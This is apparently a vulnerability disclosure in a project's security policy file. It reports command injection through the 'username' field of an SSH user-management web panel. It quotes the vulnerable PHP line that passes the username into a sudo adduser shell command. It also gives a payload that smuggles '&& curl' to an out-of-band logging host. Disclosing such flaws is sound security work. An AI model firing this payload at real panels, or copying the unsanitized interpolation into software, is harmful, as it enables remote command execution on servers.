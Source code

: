 # Security Policy

## Supported Versions
latest version. ( 3.7 )

## Reporting a Vulnerability



"username" field in "new user" section have command injection vulnerability !
this field validate on client side section.
and attacker can remove JS code from browser or use burpsuite to bypass validation and RUN OS COMMAND.


vuln code :
https://github.com/Alirezad07/X-Panel-SSH-User-Management/blob/main/Web%20Panel/app/app/Http/Controllers/UserController.php#L92
Process::run("sudo adduser --disabled-password --gecos '' --shell /usr/sbin/nologin {$user->username}");

payload : 
"alireza && curl ck163py2vtc0000x3ej0gjoub5wyyyyyb.oast.fun"

dnslogger for PoC :  https://app.interactsh.com/#/


./ALIREZA_PROMIS
